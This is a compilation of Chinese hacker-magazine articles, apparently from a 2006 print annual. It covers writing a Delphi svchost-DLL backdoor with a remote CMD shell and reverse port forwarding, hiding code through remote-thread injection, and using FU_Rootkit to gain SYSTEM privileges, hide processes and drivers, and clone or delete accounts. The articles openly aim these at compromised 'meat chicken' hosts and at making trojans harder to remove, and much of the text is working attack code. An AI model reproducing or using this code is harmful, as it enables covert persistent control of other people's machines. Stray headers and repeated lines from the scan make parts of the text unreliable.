- 8. 这个线程用来把客户端数据发送给服务器。

8个线程分工完毕了，分工还算比较明确吧？每个线程都只管做好自己的事。当服务启动时，首先会开出1、2、5这3个线程，然后1号线程等待用户的连接，2号线程主动连接用户，5号线程开辟出以后一般就不需要变动了（除非卸载）。当用户连接上时，1（或2）号线程就开辟出一个3号线程，并把其Socket句柄作为参数传给它然后继续自己的事，然后3号线程对用户进行密码验证。如果密码正确则继续，否则断开连接，退出线程。然后3号线程建立起2个匿名管道和CMD进程，并把管道的输入输出句柄赋给CMD进程，然后开辟出4号线程，并把匿名管道的句柄和Socket句柄传递给它，它负责把CMD的输出传给用户，并负责接收、处理用户的数据。当接收到用户的数据时，判断是否是属于附加命令，如果是则执行，否则交由CMD进程去处理。

#### 端口转发

下面讲最重要的实现端口转发的部分了，睡着的赶快给起来！

当3号线程判断命令是端口转发命令时，则自动开出6号线程，并把相关IP和端口作为参数传给它，然后继续去忙自己的事。6号线程则首先尝试与客户端建立连接，如果连接成功则等待数据，此时客户端在客户机上模拟出相应的端口，然后客户就连接自己这个模拟出来的端口。客户端接收连接后发送任意1个字节的数据给服务端，表示已经有了一个新的连接。此时服务端就连接自己那边的真正的端口，然后就开辟出7、8号线程来管理这个连接，7、8号线程就开始自己的工作，配合，并负责把自己端口的出入数据全部模拟到客户端。此时6号线程也还是不肯闲着，它还想继续接收新的连接，所以它又与客户端建立了一个新的连接，如果连接成功则继续等待。客户端如果又有新的连接的话就再发一个字节的数据过来，表示又有一个新的连接，然后6号线程再连接自己这边的端口，然后再开出新的7、8号线程……如此循环，就达到了一个把服务器端口反向模拟到客户端的目的，并且还能支持多条连接，其中每个连接是由两个线程来管理的。

既然完整的流程已经出来了，写代码自然不在话下了。

#### 编程实现

限于篇幅，这里只给出关键的代码和一些要注意的地方，然后结合注释给大家讲一下，方便大家理解。

这里介绍一下关于Delphi里的网络编程和多线程编程。Delphi里提供了一大堆基于各种协议的控件，可以很方便地进行网络编程。当然，本文不是教你用这些控件，而是使用WinSock单元里的Socket函数来实现功能。具体用法可以参见源代码，或者看Winsock单元。至于多线程，在Delphi的Classes单元里面有一个TThread类，你只需要建立一个该类的子类，然后重载它的Execute方法就可以轻松的实现多线程了。具体用法可以参见源代码，或者看Classes单元。

下面这个函数是我和别人聊天时无意中想到的，它的作用是安装时用来取得自己的DLL路径。应用程序要取得自己的路径方法很多，可是用Rundll32来运行的DLL程序要取得自己的路径就没那么幸运了，顶多从第一参数中分析出自己的文件名。不过这里我教大家一个方法，就是首先取得自己的进程ID，然后分析自己这个Rundll32进程的模块，只要文件名与自己相匹配的就找到目标了，然后它的路径也就是后门的路径了。

```delphi
Function GetMypath:string;
//用来获取自己的DLL路径的另类方法
var
  ModuleList: Cardinal;
  pm :TMODULEENTRY32;
begin
  Result:='';
  ModuleList:=CreateToolhelp32Snapshot(TH32CS_SNAPMODULE,GetCurrentProcessId);
  pm.dwSize:=sizeof(TMODULEENTRY32);
  if module32first(ModuleList,pm) then
  repeat
    if UpperCase(GetName(pm.szExePath))=UpperCase(myname) then //myname是要自己的DLL文件名
    begin //GetName函数用来从路径中取得文件名
      Result:=pm.szExePath; //如果文件名相同则返回模块的路径
      break;
    end;
  until not(module32next(ModuleList,pm));
  closehandle(ModuleList);
end;
```

下面这一段是6号线程的实现代码，通过代码和注释，你可以很清楚地看见它的实现方式。我们继续

```delphi
Procedure Tport.execute;
var
  localfd,remotefd :integer;
  myaddr,yourdaddr :sockaddr_in;
  IP :string;
  ws :wsadata;
  Buf :byte;
Begin
  if not(HosttoIP(yourip,ip)) then ip:=yourip;
  WSAStartup(makeword(2,2),ws);
  //初始化Windows Socke DLL
  youraddr.sin_family:=AF_INET; //设置协议
  youraddr.sin_port:=htons(yourport); //端口信息
  youraddr.sin_addr.S_addr:=inet_addr(pchar(ip)); //IP信息
  myaddr.sin_family:=AF_INET;
  myaddr.sin_port:=htons(myport);
  myaddr.sin_addr.S_addr:=inet_addr(pchar('127.0.0.1'));
  remotefd:=socket(AF_INET,SOCK_STREAM,0);
  //建立Socket
  localfd:=socket(AF_INET,SOCK_STREAM,0);
  //从这里开始一直到下面属于关键地方！
  while connect(remotefd,youraddr, sizeof(sockaddr_in))<>-1 do //建立连接
  begin
    while true do
    case Recv(remotefd,buf,1,0) of
    -1:begin //连接关闭则退出
      closesocket(remotefd);
      closesocket(localfd);
      exit;
      end;
    0:begin
      sleep(1); //这一句很重要！没有这一句会导致整个系统资源都被它吃光。
      end;
    else break; //如果收到一个字节的数据
```

www.hacker.com.cn
2006精华奉献本 下册

```pascal
则跳出这个循环，表示已经有新的连接了。
end;
if connect(localfd,myaddr,sizeof(sockaddr_in))==-1 then
//连接失败则继续新的连接。
begin
closesocket(remotefd);
closesocket(localfd);
remotefd:=socket(AF_INET,SOCK_STREAM,0);
localfd:=socket(AF_INET,SOCK_STREAM,0);
continue;
end;
Tsend.Create(localfd,remotefd);      //成功则创建2个线程负责传输数据，并把句柄传给它。
Trecv.Create(localfd,remotefd);
remotefd:=socket(AF_INET,SOCK_STREAM,0);
//再开辟出新的Socket，来建立新的连接。
localfd:=socket(AF_INET,SOCK_STREAM,0);
end;
closesocket(remotefd);
closesocket(localfd);
end;
```

需要转发数据的 7、8 号线程怎么办呢？因为是两个线程管理,所以一个线程只管往一个方向传输数据就可以了,这样编程很方便,速度也快。这里仅结合关键代码说一下。

```pascal
Procedure Tsend.execute;      //这是其中的一个线程，负责把服务端数据发送到客户端
var
Buf      :TBigbuf;
Len      :integer;
test     :byte;
begin
while true do      //建立死循环来处理数据
begin
Len:=Recv(localfd,Buf,BigBufsize,0);
case Len of
-1:begin      //如果连接断开则退出线程
closesocket(localfd);
closesocket(remotefd);
exit;
end;
0:begin
if send(remotefd,test,0,0)==-1 then      //检测连接状态
begin
closesocket(remotefd);
closesocket(localfd);
exit;
end;
sleep(1); //这一句同样重要，否则将吃掉你的系统资源
end;
else
begin
if send(remotefd,buf,Len,0)==-1 then
//如果接收到数据则无条件转发
Begin      //如果发送失败则退出线程
closesocket(localfd);
closesocket(remotefd);
exit;
end;
end;
end;
end;
end;
```

另外还有一个地方要注意,那就是安装时修改注册表的那一项,这个地方浪费了我几个小时。记得有天晚上弄了半天 Svchost 就是不加载我的 DLL。郁闷啊！最后快要疯了的时候突然看到这样的东西,如图 2 所示。

| 名称 | 类型 | 数据 |
| :--- | :--- | :--- |
| (默认) | REG_SZ | (数值未设置) |
| ServiceDll | REG_EXPAND_SZ | C:\WINNT\system32\Angel.dll |

图 2

原来它的数据类型是扩展型的字符串，而我用 Tregistry 类提供的方法写入的类型是普通的字符串,所以当 Svchost 读取注册表时会无法识别。知道原因后,立即抛弃了 Tregistry 类,上网找了篇操作注册表的文章,直接调用就可以了(代码见光盘)。修改好以后,我的 DLL 终于被 Svchost 执行了,心中那个舒畅啊！

#### 客户端的编写

流程仍然是关键的,配合下面的源代码和注释,我们一起来看一下大致的流程。

```pascal
while true do      //这是管理线程的关键代码。功能类似于服务端的 6 号线程
begin
repeat
you:=accept(remotefd,@their_addr,@size1);
//首先接收服务端的一个连接
until you<>-1;
if isfirst then
begin
memo1.Lines.Add('已经接收到远程计算机的连接！');      //如果是第一次接收则显示信息
memo1.Lines.Add('请在本地连接'+edit1.Text+'端口');
isfirst:=false;
end;
repeat
i:=accept(localfd,@their_addr,@size2);
//接收了服务端的连接后再接收本地的一个连接。
until I<>-1;
if send(you,s,1,0)==-1 then      //发送一个字节的数据给服务端，表示本地新接收了一个连接
begin      //如果连接失败则继续下一次连接
memo1.Lines.Add('建立连接失败,对方断开连接,或者已达最大连接数');
closesocket(i);
closesocket(you);
continue;
end;
memo1.Lines.Add('已经成功建立一个新的连接.');      //连接成功，开辟出2个新的线程来实现数据转发,并把Socket句柄交它们
Tsend.Create(i,you);
Trecv.Create(i,you);
end;      //回到上面继续接收服务端的一个新的连接，如此循环
```

关于配置程序的编写,很多人可能都不知道该怎样写,其实很简单,其中一种方法就是把服务端程序转化成Byte型的数组嵌入程序,然后再用WinHex找一下一些类似于密码等关键数据的地址偏移量,然后只要把那个位置的数据按照要求修改一下,保存到磁盘就可以生成了服务端。

好了,程序的介绍到这里了,欢迎大家到黑防论坛上一起讨论相关的技术,期待更新的技术出现！

适合读者：编程爱好者、黑客迷
前置知识：C 语言基本语法

## Windows 2003下的进程隐藏攻略

文/ 小宝

关于进程的隐藏，Windows 98下的例子数不胜数，Windows 2000下的隐藏方法，各个编程论坛中也介绍过，我也多次读过有关的文章，对朋友们的计算机水平及热心帮助朋友的作风十分敬佩。本文就算是对前辈文章的补充与深入介绍吧。

在Windows 2003下“真正隐藏进程”这一说法是不太可能实现的，只要我们的程序是以进程内核的形式运行，都不可能逃离CTRL+ALT+DEL的法眼。那么奇怪了，这岂不是与我们的标题相矛盾吗？是的，实际上应该是以非进程方式执行目标代码，而逃避进程查看器的检查，从而达到“进程隐藏”的目的。

我们这里用的是在宿主进程中，以线程方式执行代码。实现起来非常简单。

首先，我们先建立一个不执行任何语句的线程。

```c
DWORD stdcall ThreadProc(LPVOID *lpVoid){
    return 0;
}
```

然后将线程代码拷贝至宿主进程所能够执行的任何地方(即页面属性为PAGGE_EXECUTE_ READWRITE)，如共享内存映射区、宿主进程内。这里我们选择宿主进程，拷贝的时候，我们需要先在宿主进程中使用VirtualAllocEx函数申请一段内存，然后再使用WriteProcessMemory将线程体写入宿主进程中。

以上工作完成后，我们便可用CreateRemoteThread函数激活并执行。下面给出一个完整的例子。

```c
// 远程线程执行体
DWORD __stdcall ThreadProc (void *lpPara){
    return 0;
}

int main(int argc, char* argv[]){
    const DWORD THREADSIZE=1024*4; // 暂定线程体大小为4K，实际上没这么大，稍后我将会介绍
    DWORD byte_write;
    // 获得指定进程ID句柄，并设其权限为
    PROCESS_ALL_ACCESS,992是宿进程的ID号，获取ID号的方法
    这里我就不多讲了
    HANDLE hWnd = ::OpenProcess
    (PROCESS_ALL_ACCESS,FALSE,992);
    if(hWnd)return 0;
    void *pRemoteThread =::VirtualAllocEx(hWnd,0,
    THREADSIZE,MEM_COMMIT| MEM_RESERVE,
    PAGE_EXECUTE_READWRITE);//申请
    if(!pRemoteThread)return 0;
    if(!::WriteProcessMemory(hWnd,pRemoteThread,
    &ThreadProc,THREADSIZE,0))//写入进程
        return 0;
    // 启动线程
    HANDLE hThread = ::CreateRemoteThread (hWnd ,
```

```c
0,0,(DWORD (__stdcall *)(void *))pRemoteThread ,NULL,0,
&byte_write);
if(!hThread){ // 还有内存分配未释放
    return 0;
}
return 0;
```

到这里，对于隐藏的方法就算告一段落，相信看过的朋友对这个思路有个非常明确的概念了吧？在理解隐藏的方法后，我们着重开始写线程的执行部分了。如下：

```c
DWORD __stdcall ThreadProc(void *lpPara){
    MessageBox(NULL,"hello","hello",0);
    return 0;
}
```

编译执行后，你会发现出现一个非法操作错误，为什么呢？在我们以段页式内存管理的Windows 2003操作系统中，编译时会把所有的常量编译在PE文件的.data节中，而代码段则在.text中，所以我们拷贝到宿主进程中的代码是在.text中的代码，“MessageBox (NULL, (char *)指针,p,0);”所指向的地址是本进程的内存虚拟地址，而它在宿主进程中是无法访问的。

解决的方法很简单，将“hello”也拷贝到目标进程中，然后再引用。同理，MessageBox函数地址编译时，也是保存在.Import中，写过Windows 2000下的病毒程序的朋友都知道，所有常量与函数入口地址都需在代码段定义与得出，我们这里也与它有点类似，同样情况我们也把函数的入口地址一起写入目标进程中。

```c
// 先定义参数结构
typedef struct _RemotePara{//参数结构
    char pMessageBox[12];
    DWORD dwMessageBox;
}RemotePara;
//赋值
RemotePara myRemotePara;
::ZeroMemory(&myRemotePara,sizeof(RemotePara));
HINSTANCE hUser32 = ::LoadLibrary ("user32.dll");
myRemotePara.dwMessageBox =(DWORD)::GetProcAddress
(hUser32, "MessageBoxA");
strcat(myRemotePara.pMessageBox,"hello\0");
// 写进目标进程
RemotePara *pRemotePara =(RemotePara *)
VirtualAllocEx (hWnd ,0,sizeof(RemotePara),MEM_COMMIT,
PAGE_READWRITE);// 注意申请空间时的页面保护属性
if(!pRemotePara)return 0;
if(!::WriteProcessMemory (hWnd ,pRemotePara,
&myRemotePara,sizeof myRemotePara,0))return 0;
// 启动将参数传递进入
HANDLE hThread = ::CreateRemoteThread (hWnd ,0,0,
(DWORD (__stdcall *)(void *))pRemoteThread ,pRemotePara,
```

```c
0,&byte_write);
if(!hThread){
    return 0;
}
```

好了，就这么简单。下面再给出弹出一个MessageBox的实例。

```c
//RemoteThread.cpp;
//Defines the entry point for the console application.
#include "stdafx.h"
typedef struct _RemotePara{ //参数结构
    char pMessageBox[12];
    DWORD dwMessageBox;
}RemotePara;
// 远程线程
DWORD _stdcall ThreadProc (RemotePara *lpPara)
{
    typedef int (__stdcall *MMessageBoxA)(HWND,
    LPCTSTR,LPCTSTR,DWORD);//定义MessageBox函数
    MMessageBoxA myMessageBoxA;
    myMessageBoxA = (MMessageBoxA) lpPara->
    dwMessageBox; //得到函数入口地址
    myMessageBoxA(NULL,lpPara->pMessageBox,
    lpPara->pMessageBox,0);//call
    return 0;
}
void EnableDebugPriv();//提升应用级调试权限
int main(int argc, char* argv[])
{
    const DWORD THREADSIZE=1024*4;
    DWORD byte_write;
    EnableDebugPriv();//提升权限
    HANDLE hWnd = ::OpenProcess
    (PROCESS_ALL_ACCESS,FALSE,992);
    if(hWnd)return 0;
    void *pRemoteThread =::VirtualAllocEx(hWnd,0,
    THREADSIZE,MEM_COMMIT| MEM_RESERVE,
    PAGE_EXECUTE_READWRITE);
    if(!pRemoteThread)return 0;
    if(!::WriteProcessMemory(hWnd,pRemoteThread,
    &ThreadProc,THREADSIZE,0))
        return 0;

    // 再赋值
    RemotePara myRemotePara;
    ::ZeroMemory(&myRemotePara,sizeof(RemotePara));
    HINSTANCE hUser32 = ::LoadLibrary ("user32.dll");
    myRemotePara.dwMessageBox = (DWORD)::
    GetProcAddress (hUser32, "MessageBoxA");
    strcat(myRemotePara.pMessageBox,"hello\0");
    // 写进目标进程
    RemotePara *pRemotePara =(RemotePara *)
    VirtualAllocEx (hWnd ,0,sizeof(RemotePara),MEM_COMMIT,
    PAGE_READWRITE);//注意申请空间的页面属性
    if(!pRemotePara)return 0;
    if(!::WriteProcessMemory (hWnd ,pRemotePara,
    &myRemotePara,sizeof myRemotePara,0))return 0;
    // 启动线程
    HANDLE hThread = ::CreateRemoteThread (hWnd ,
    0,0,(DWORD (__stdcall *)(void *))pRemoteThread ,pRemotePara,
    0,&byte_write);
    if(!hThread){
        return 0;
    }
    return 0;
}
// 提升权限
void EnableDebugPriv( void )
{
    HANDLE hToken;
```

```c
LUID sedebugnameValue;
TOKEN_PRIVILEGES tkp;

if ( ! OpenProcessToken( GetCurrentProcess(),
    TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY,
    &hToken ) )
    return;
if ( ! LookupPrivilegeValue( NULL, SE_DEBUG_NAME,
    &sedebugnameValue ) ){
    CloseHandle( hToken );
    return;
}
tkp.PrivilegeCount = 1;
tkp.Privileges[0].Luid = sedebugnameValue;
tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
if ( ! AdjustTokenPrivileges( hToken, FALSE, &tkp,
    sizeof tkp, NULL, NULL ) )
    CloseHandle( hToken );
}
```

好了，程序编译执行后会在进程号为992的进程中创建一个线程，弹出Hello对话框，很简单吧？

这里有几个地方需要注意。

1 . 远程线程在宿主进程中申请空间时，空间大小的确定是我一直无法解决的问题。我曾使用两个靠在一起的线程，以线程间的距离大小，并加上参数大小，作为申请空间时，仍然会出现非法操作，如下：

```c
static void StartThread (LPVOID *lpPara){
    return ;
}
static void EndThread(LPVOID *lpPara){
    return;
}
```

然后使用"DWORD dwLenght = (DWORD)((char * )&StartThread - (char *)&EndThread);"得到StartThread线程代码长度，再"dwLenght += sizeof(ThreadPara);"。不过这时仍会出现非法操作，让我很迷惑。在Windows 2000中，线程的默认堆栈的页大小是4KB，这里我在为线程申请内存时，申请的大小暂时使用一个常数，始终为4KB的倍数，选取时尽量取大，在线程可成功运行后，再一点点改小。办法笨了点，朋友要是有更好的方法，请不吝赐教。

2 . 什么时候，什么参数是需要从外部传递进来的呢？我里并没有一个十分有力的答案。我的理解是PE文件中除了.text节以外的所有节，均需使用外部参数传递到线程中使用，如.rsrc、.data、.rdata等15个节。在我们实际编写的过程中，初学者并不知道我们的代码会编译在什么地方，这个时候，我们可以在运行的时候ALT+8(VC中快捷键)反编译过来，一般有"lea eax p,push offset p"等取地址语句，大都需要将参数传递进来。所以，大家在编写的时候一定要注意参数，因为线程的执行是在别的进程中，一个普通权限的应用程序是无法跨越进程来调试其它进程的，包括VC也无法调试我们的远程线程。熟悉汇编的朋友，可用softice调试，这需要一定的基本功。

### 养在深闺人未识：FU_Rootkit

进程查看器无法将其杀除。

4.进程ID获得的方法较多，如EnumProcesses、CreateToolhelp32Snapshot/Process32First/Process32Next、NtQuerySystemInformation等函数均可，为减少代码，例子中的进程ID是直接在进程查看器中得到的。

这两种方法一比较，很明显第一种方法在使用DLL时，创建十分简单，也不需要太多的操作系统与内存操作知识，并可直接调试DLL文件。实现起来比较简单，直接拷贝到进程中的方法稍为复杂一点，一不小心，很容易出现非法操作。当然，也去掉那个让人讨厌的DLL文件。程序执行后，很难找到它的来源地，是除了病毒以外的木马隐藏的首选方法。

这时候我们应该已经非常清楚这个方法中为何会多出一个DLL文件了：远程线程的线程体本身就是LoadLibrary函数，即线程的入口地址就是LoadLibrary的入口地址，这是系统Kernel32.dll中的函数，任何进程都可调用。线程中使用LoadLibrary函数将我们的DLL加载到系统空间内，线程一执行，我们的DLL就开始工作了。线程执行结束后，别忘了使用VirtualFreeEx将其申请的内存区释放。

写到这里，我们就可以理解2003中进程隐藏的方法，其实本文只是给大家的一个指引，这篇文章也早就写好了，考虑许久，终于还是决定拿出来献丑一下，文章中尽量使用最简洁易懂的词汇及例子来介绍，希望能够对每一位初学的读者与进阶者有所帮助。

适合读者：编程爱好者、黑客迷
前置知识：C语言基本语法

我在2004年11期黑防上刊登了《小工具巧删Guest/Administrator账户》这篇文章，有不少朋友来信询问工具是如何编写的，其实这个工具里面大部分代码是我拷贝FU_Rootkit过来的。既然朋友们喜欢，这几天我又多了好多想法，那我就来讲讲怎么充分挖掘利用FU_Rootkit吧！

先去www.rootkit.com把FU_Rootkit给Download下来，以前它在Windows 2000专业版下面提升进程权限有问题，新版本已经修复这个问题。FU_Rootkit也算是“养在深闺人未识”了，比起Hxdef、AFX Rootkit来名气小多了。不过是金子终究是要发光的，这不，今天我们就让它来发光了！

FU_Rootkit是开源的，用C语言编写，很容易移植。我的开发环境是Windows 2000+SP4+VC6.0。FU_Rootkit主程序包括两个部分：fu.exe和Msdirectx.sys。Msdirectx.sys能直接载入核心内存，fu.exe则是相应的应用程序。先来看看它的部分功能：

#### 权限提升

有了权限我们才能任意地操作，让电脑为我们实现各种功能，所以第一步首先是权限提升。

我们知道，提升进程权限可以用Psu工具，FU_Rootkit也能够实现这个功能，它可以将任意进程提升到SYSTEM权限——不仅可以给其他进程提升权限，还可以把自己的进程也提升为SYSTEM权限哦（在下面的文章中你将可以看到这个功能是多么的有用）！

第一步：载入Msdirectx.sys
具体代码见initDriver()函数。其实朋友们大可不必完全看懂这些代码，把函数直接拷贝过去就OK了。

```
[-pl] xxx      列举所有运行进程
[-ph] #PID    隐藏进程标识符为PID的进程
[-pld]         列举所有载入驱动程序
[-phd] DRIVER_NAME    隐藏指定驱动
[-pas] #PID    提升进程标识符为PID的进程权限至SYSTEM
[-prl]         列出可用的权限名单
[-prs] #PID #privilege_name 提升进程标识符为PID的进程权限至指定权限
[-pss] #PID #account_name   改变进程令牌和SID
```

可以看出FU_Rootkit不仅可以隐藏进程和驱动，改变进程令牌和SID，还可以列举用Hook技术隐藏的进程和驱动。我们今天要做的就是利用Msdirectx.sys完成我们自己的黑客工具集的编写！

第二步：查找进程的PID
代码如下：

```c
const char DESTPROC[19] = "UserManager.exe"; // UserManager.exe是程序的进程名称
AddPrivilege(SE_DEBUG_NAME); //提升进程DEBUG权限
    HANDLE hRemoteProcess = NULL;
    DWORD pid = ProcessToPID(DESTPROC); //这里的pid就是我们进程PID
// ProcessToPID函数如下：
DWORD ProcessToPID(const char *InputProcessName)
// 将进程名转换成进程PID的函数
{
    DWORD aProcesses[1024], cbNeeded, cProcesses;
    unsigned int i;
    HANDLE hProcess = NULL;
    HMODULE hMod = NULL;
```


```c
char szProcessName[MAX_PATH] = "UnknownProcess";
// 提升进程权限至DEBUG权限
AddPrivilege(SE_DEBUG_NAME);
// 计算目前有多少进程，aProcesses[]用来存放有效的进程PIDs
if ( !EnumProcesses( aProcesses, sizeof(aProcesses), &cbNeeded ) )
{
    return 0;
}
cProcesses = cbNeeded / sizeof(DWORD);
// 按有效的PID遍历所有的进程
for ( i = 0; i < cProcesses; i++ )
{
    // 打开特定PID的进程
    hProcess=OpenProcess( PROCESS_QUERY_INFORMATION |
    PROCESS_VM_READ,
    FALSE, aProcesses[i]);
    // 取得特定PID的进程名
    if ( hProcess )
    {
        if ( EnumProcessModules( hProcess, &hMod, sizeof(hMod), &cbNeeded) )
        {
            GetModuleBaseName( hProcess, hMod, szProcessName,
            sizeof(szProcessName) );
            // 将取得的进程名与输入的进程名比较，如相同则返回进程PID
            if(!stricmp(szProcessName, InputProcessName))
            {
                CloseHandle( hProcess );
                return aProcesses[i];
            }
        }
        //end of if ( hProcess )
    }
    //end of for
}
// 没有找到相应的进程名，返回0
CloseHandle( hProcess );
return 0;
```

第三步 提升进程权限至SYSTEM
具体代码见UpdateToSystem()函数。这样我们的进程UserManager.exe就具备了SYSTEM权限了。

### 攻击篇

当你得到肉鸡的SYSTEM权限后，当然要把自己的后门进程或驱动器隐藏，然后克隆账号，留个隐藏账号什么的，下面我们就来看看这些功能如何用程序来实现。

#### 1. 克隆账号

各位朋友看到小榕的CA工具是不是很眼馋，不想自己写一个？在黑防2003年的第7期《C语言克隆账号》上已经有具体介绍。一般来讲，克隆账号的方法有两种：一种是利用系统服务的SYSTEM权限读写SAM文件；第二种是利用驱动提升进程权限。我们这里采用第二种办法。在《C 语言克隆账号》一文中，由于不具备SYSTEM权限，需要手工修改注册表才能够操作注册表SAM文件，比较麻烦。在我们这里当然是没有问题的，将其代码COPY过来，放在我们工程里面就可以了。

注册表SAM文件，比较麻烦。在我们这里当然是没有问题的，将其代码COPY过来，放在我们工程里面就可以了。

#### 2. 进程隐藏

进程隐藏实乃木马病毒的必备防身本领，FU_Rootkit中的最基本功能之一就是进程隐藏，首先我们要知道进程的PID或者进程名，然后才能将它隐藏，隐藏代码如下：

```c
DWORD HideProc(DWORD pid)//pid是你要隐藏的进程的PID
{
    DWORD d_bytesRead;
    DWORD success;
    if (!Initialized)
    {
        return ERROR_NOT_READY;
    }
    success = DeviceIoControl(gh_Device,
    IOCTL_ROOTKIT_HIDEME,
    (void *) &pid,
    sizeof(DWORD),
    NULL,
    0,
    &d_bytesRead,
    NULL);
    return success;
}
```

假如你要想找出隐藏的进程，可以采用工具RTDector0.62。

#### 3. 驱动隐藏

驱动隐藏？很少见吧。有经验的管理员一般都会使用命令Drivers.exe来查看载入的驱动(Drivers.exe可以在Windows 2000的资源包里面找到)；运行后界面如图1所示。

| ModuleName | Code | Data | Bss | Paged | Init | LinkDate |
| --- | --- | --- | --- | --- | --- | --- |
| ntoskrnl.exe | 356160 | 76160 | 0 | 1094784 | 164864 | Thu Apr 24 17:57:43 2003 |
| hal.dll | 27008 | 6272 | 0 | 23936 | 11776 | Thu Aug 29 10:05:02 2002 |
| KDDCOM.dll | 2560 | 256 | 0 | 1280 | 512 | Fri Aug 17 22:49:10 2001 |
| sysaudio.sys | 2560 | 128 | 0 | 44160 | 2688 | Thu Aug 29 11:01:17 2002 |
| wdmaud.sys | 7936 | 2048 | 0 | 60160 | 2432 | Thu Aug 29 11:00:46 2002 |
| Cdls.SYS | 6528 | 640 | 0 | 42680 | 4480 | Thu Aug 29 10:58:30 2002 |
| splitter.sys | 4608 | 512 | 0 | 512 | 3072 | Thu Aug 29 10:36:12 2002 |
| kmixer.sys | 12032 | 35940 | 0 | 0 | 0 | Thu Aug 22 16:32:26 2002 |
| msidec.sys | 0 | 0 | 0 | 0 | 0 |  |
| PROCEXP.SYS | 0 | 0 | 0 | 0 | 0 |  |
| Total | 6514624 | 1887616 | 0 | 4234720 | 578464 |  |

图1

看到Msdirectx.sys暴露出来了吧？而FU_Rootkit就可以把自己的Msdirectx.sys隐藏起来，运行的命令是“C:\fu.exe -phd msdirectx.sys”。当然这个功能我们也可以很轻松地移植到我们的程序中去。

### 防御篇

千万不要以为FU_Rootkit得到SYSTEM权限只是用来攻击，不能防守，其实Rootkit是一把“双刃剑”，运用得当，同样是防御的好帮手。同时，作为一名菜鸟。


## 编程分析
》栏目编辑〉socket）socket@hacker.com.cn

当然是防守为先，所以请看防守篇。

### 1 系统用户查看

眼下只要翻开一本黑客杂志，经常看到什么“隐藏账号”、“不死账号”什么的，吓得我等菜鸟心惊胆颤，经常对着用户管理发呆，究竟有没有问题呢？这里我们可以利用LPUSER_INFO_3读取用户信息，包括用户名、用户全名、用户描述、登录次数、登录权限以及上次登录时间等参数，代码较长而且简单，这里就不贴了，有兴趣的可以查看DWORD CUserManagerDlg::UserALLE()函数。

当然，列举账号可以直接从SAM\SAM\Domains\Account\Users\Names中读取，然后与LPUSER_INFO_3中读出来的账号进行对比，这样就能找出隐藏的账号，将那些隐藏的、不死的统统打回原形，让你把账号看得“清清楚楚，明明白白”。

### 2. 删除Guest

先来看看如何删除Guest用户吧。获取SYSTEM权限后，只要删除在注册表SAM文件夹中对应的Guest和000001F5文件夹就OK了！

```cpp
void CUserManagerDlg::Deletguest()
{
	BOOL upResult;
	upResult=UpdateToSystem();
	// 先查看一下进程提示权限至SYSTEM 成功没有
	if(upResult)//如果权限提升SYSTEM成功的话
	{
		// 删除GUEST用户！
		BOOL dResult;
		dResult=DelNT(HKEY_LOCAL_MACHINE,
" S A M \\ S A M \\ D o m a i n s \\
Account\\Users\\Names\\Guest");//删除Guest文件夹
		BOOL dResult2;
		dResult2=DelNT(HKEY_LOCAL_MACHINE,
"SAM\\SAM\\Domains\\Account\\Users\\000001F5");//
删除guest对应的ID号000001F5文件夹
		if(dResult&&dResult2)
		{
			AfxMessageBox("成功删除GUEST用户！ ");
		}
		else
		{
			AfxMessageBox("删除GUEST用户失败！ ");
		}
	}
	else
	{
		AfxMessageBox("提升至SYSTEM权限失败！ ");
	}
}
```

其中DelNT()函数是专门定义用来删除注册表子键的函数。

### 3. 删除Administrator

看到标题你可不要吓一跳，Administrator一般情况下是不能删除的，当然你可以到控制面板->管理工具->计算机管理里面重命名该账户，也可以使用NT Resource Kit提供的Passprop工具启用对Administrator的锁定。我们这里当然要挑战极限：删除Administrator！

代码跟删除Guest用户的代码差不多，换个参数就可以了，分别删除注册表SAM文件夹中的Administrator和000001F4文件夹就可以了；而且可以在Administrator当前用户下删除，强吧？嘿嘿。假如你只有这么一个管理员账号的话呢，不好意思，恭喜你，你的机器上从此没有管理员了！

> 强烈建议删除Administrator之前一定要先创建一个其他名字的管理员账号！据《微软信息安全文集》中说，删除Administrator和Guest系统内置账户有可能导致破坏SAM数据库，不过《微软信息安全文集》的作者同时声明：经他测试，没有发现副作用。

### 4. 查杀进程篇

朋友们是否经常遇到这种情况，在任务管理器中发现一个未知进程，并且杀不掉，说是权限不够。这个问题在我们获取System权限后就不再是问题，现在病毒、木马等都是双进程，互相监控，给我们查杀进程带来很大不便，需要我们能够同时查杀多个进程，选用Listview控件作为进程的列举控件，将Checkbox选项选中，这样我们就可以同时选中多个进程进行查杀，爽吧？！

### 5. 列举用Hook技术隐藏的进程和驱动

这个功能就是FU_Rootkit的过人之处了，可以帮助你查找利用HOOK技术隐藏的进程和木马。实现方法比较简单，大家可以去源码中查看ListProc(void *buffer, int buff_size)和ListDriv(void)函数。

本文利用FU_Rootkit获取SYSTEM权限后，完成了很多实用的黑客小工具。System和Administrator权限一般人看起来感觉都差不多，但在一些与系统内核交互的细节上，可以看出System权限要更大一些。譬如说注册表中的某些文件夹、对物理内存有读写能力等方面。因此，获取System权限后所能做的事情远远不止我们上面所说的这些，希望大家共同挖掘。

http://www.rootkit.com/上有很多开源的好资源，研究并扩展其功能便可以写出很多有用的小软件。将其功能添加到我们小马中去，将会大大提高其生命力。朋友们，现在是不是感觉黑客软件不过如此，人人能写？如果是这样，也不枉费我一番苦心。由于工作关系，时间确实有限，不可能将上面的功能全部一一实现在代码中，其实已经是体力活了，很多功能都只需要把代码COPY进去就可以了。特将删除Guest/Administrator的小工具和FU_Rootkit的代码附上，朋友们升级了可要寄给我一份哦！


## 从零开始学编程之六：不会写后门就不是黑客

Socket：当一个人水平达到了某种高度，自然就会寄希望能够突破自我，从不断的挑战中找到人生的乐趣。比如极限运动爱好者想尝试更为惊险刺激的运动；职业运动员想圆世界大赛金牌之梦；而黑客程序页则想编写一个优秀后门。这并非笑谈，编写后门能够增强你对操作系统底层的了解、大幅度地提高编程水平，更能够让你在黑客界“名利”双收！

适合读者：黑器爱好者、编程爱好者
前置知识：C++ 基本语法

□ 文 / Sculhr

现在的Telnet扩展后门太多了，像WinEggDrop、Wolf、WinShell（号称3W）等。本人热衷于编程，对后门的编程技术早就虎视眈眈了。于是狂用Google搜索各类后门的源代码，收获还真不少。呵呵，多亏各类高手的无私奉献，像WinShell5.0的源代码，刚下载完的时候，喜悦之情，怎一个“爽”字可以形容。于是用了几天时间，疯狂阅读学习这些后门源代码。豁然发现，原来实现过程这么简单。抱头痛苦，为什么不自己早点写出这么“简单”的后门？否则现在流芳后门界就是我啦。

